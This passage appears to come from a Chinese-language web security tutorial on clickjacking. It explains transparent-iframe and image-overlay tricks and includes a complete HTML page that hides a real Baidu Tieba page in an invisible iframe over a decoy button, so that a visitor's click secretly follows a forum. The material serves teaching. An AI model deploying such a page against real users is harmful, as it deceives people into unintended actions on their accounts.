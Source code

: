 ## 3. 攻击示例

点击劫持（ClickJacking）是一种视觉上的欺骗手段。大概有两种方式，一是攻击者使用一个透明的iframe，覆盖在一个网页上，然后诱使用户在该页面上进行操作，此时用户将在不知情的情况下点击透明的iframe页面；二是攻击者使用一张图片覆盖在网页，遮挡网页原有位置的含义。

![image-20220707220322111](https://zszblog.oss-cn-beijing.aliyuncs.com/zszblog/image-20220707220322111.png)

### 3.1 iframe覆盖（嵌入iframe框）

> 以下是网上的一个例子，忽略其真实性和意义，只是辅助你理解其思路

假如我们在百度有个贴吧，想偷偷让别人关注它。于是我们准备一个页面：

```html
<!DOCTYPE HTML>
<html>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312" />
    <head>
    <title>点击劫持</title>
    <style>
        html,body,iframe{
            display: block;
            height: 100%;
            width: 100%;
            margin: 0;
            padding: 0;
            border:none;
        }
        iframe{
            opacity:0;
            filter:alpha(opacity=0);
            position:absolute;
            z-index:2;
        }
        button{
            position:absolute;
            top: 315px;
            left: 462px;
            z-index: 1;
            width: 72px;
            height: 26px;
        }
    </style>
    </head>
    <body>
        那些不能说的秘密
        <button>查看详情</button>
        <iframe src="http://tieba.baidu.com/f?kw=%C3%C0%C5%AE"></iframe>
    </body>
</html>

```
